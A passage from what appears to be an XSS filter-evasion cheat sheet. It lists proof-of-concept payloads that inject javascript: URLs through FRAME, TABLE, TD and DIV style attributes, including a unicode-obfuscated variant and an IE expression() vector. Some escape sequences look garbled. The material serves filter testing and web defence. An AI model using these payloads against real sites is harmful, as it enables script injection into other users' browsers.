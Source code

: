 ## FRAME

Frames have the same sorts of XSS problems as iframes

`<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

## TABLE

`<TABLE BACKGROUND="javascript:alert('XSS')">`

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing
JavaScript XSS vectors:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

## DIV

### DIV background-image

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV background-image with unicoded XSS exploit

This has been modified slightly to obfuscate the url parameter. The
original vulnerability was found by Renaud Lifchitz as a vulnerability
in Hotmail:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

### DIV background-image plus extra characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that
are allowed after the open parenthesis but before the JavaScript
directive in IE and Netscape 8.1 in secure site mode. These are in
decimal but you can include hex and add padding of course. (Any of the
following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288,
65279):

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV expression

A variant of this was effective against a real world cross site
scripting filter using a newline between the colon and "expression":

`<DIV STYLE="width: expression(alert('XSS'));">`

## Downlevel-Hidden block

Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine
mode). Some websites consider anything inside a comment block to be safe
and therefore does not need to be removed, which allows our Cross Site
Scripting vector. Or the system could add comment tags around something
to attempt to render it harmless. As we can see, that probably wouldn't
do the job:
